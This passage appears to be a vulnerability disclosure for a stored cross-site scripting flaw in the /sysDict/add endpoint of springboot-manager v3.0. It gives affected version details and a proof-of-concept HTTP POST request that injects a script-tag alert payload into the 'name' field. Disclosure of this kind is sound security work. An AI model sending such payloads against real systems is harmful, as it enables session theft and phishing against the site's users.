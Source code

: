 ![image-20250228215057842](assets/image-20250228215057842.png)

### 1.4 `/sysDict/add` Stored cross-site scripting

[Affected version]

v3.0



[Affected Component]

/sysDict/add



[Software]

https://gitee.com/zwens/springboot-manager/repository/archive/v3.0



[Description]

The spring-manager system v3.0 has a stored XSS vulnerability in the `/sysDict/add` interface. The parameter name has not been properly handled. Hackers can exploit this vulnerability to obtain cookies, conduct phishing attacks, and carry out worm attacks.

POC

```
POST /manager/sysDict/add HTTP/1.1
Host: 192.168.1.184:8081
Content-Length: 56
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json; charset=UTF-8
Origin: http://192.168.1.184:8081
Referer: http://192.168.1.184:8081/manager/index/sysDict
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=0592A0FE99DCA290FBC248D5D091B650; satoken=01cdb2b4-c114-4d1c-8930-ddf92e97d658
Connection: keep-alive

{"id":"","name":"<script>alert(1)</script>","remark":""}
```
